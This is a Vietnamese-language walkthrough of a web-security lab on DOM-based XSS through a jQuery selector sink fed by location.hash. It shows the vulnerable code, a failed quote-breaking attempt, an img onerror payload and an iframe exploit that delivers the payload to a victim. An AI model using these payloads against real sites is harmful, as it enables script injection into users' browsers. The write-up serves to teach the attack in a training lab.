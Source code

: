 # DOM XSS in jQuery selector sink using a hashchange event

# 1. Vulnerable

![vuln.png](images/vuln.png)

Trang web có chứa đoạn mã tự động chạy đến một phần của trang thông qua hàm `location.hash`

Khi trên url của trang web có chứa dấu `#` ở cuối, ta sẽ tự động được di chuyển đến phần định danh tương ứng với phần sau dấu `#` đó

Mỗi khi có dấu `#`, chương trình sẽ chạy:

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

Chạy câu lệnh `decodeURIComponent(window.location.hash.slice(1))` ta thấy:

![vuln1.png](images/vuln1.png)

# 2. Exploit

Sau khi xác định là có thể trực tiếp inject ở hàm 

```
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
```

Mình đã thêm đoạn code: `)');alert() //` thì mã của chương trình trở thành:

```
$('section.blog-list h2:contains()');alert() //)');
```

![vuln2.png](images/vuln2.png)

Nhưng khi chạy lại câu lệnh `decodeURIComponent(window.location.hash.slice(1))` thì đoạn `)');alert() //` lại trở thành `")');alert() //"` khiến câu lệnh nối không được hoàn thành do khác biệt dấu ' và "

Chuyển qua cách khác.

Khi mình thử với datatype mới

```
var post = $('section.blog-list h2:contains(' + '<h1>khanh</h1>' + ')');
```

![vuln3.png](images/vuln3.png)

Vậy là biến post đã trở thành 1 giá trị thẻ `<h1>` trong html

Ta sẽ khiến biến post trở thành 1 bad img và lợi dụng onerror để chạy XSS

```
var post = $('section.blog-list h2:contains(' + '<img src=1 onerror=alert(1)>' + ')');
```

![vuln4.png](images/vuln4.png)

Biến log trở thành 1 thẻ img lỗi và alert được hiện ra

Payload gửi cho victim vào trang web bị lỗi và thực hiện hàm print

```
<iframe src="https://0aac00ae043e2f97810b39dd001b00f8.web-security-academy.net/" onload="this.src+='#<img src=1 onerror=print()>'"></iframe>
```

Do ta phải vào trang web rồi mới sử dụng được truy vấn `#` nên sau khi gửi victim trang web rồi mới onload qua link xss được

![solved.png](images/solved.png)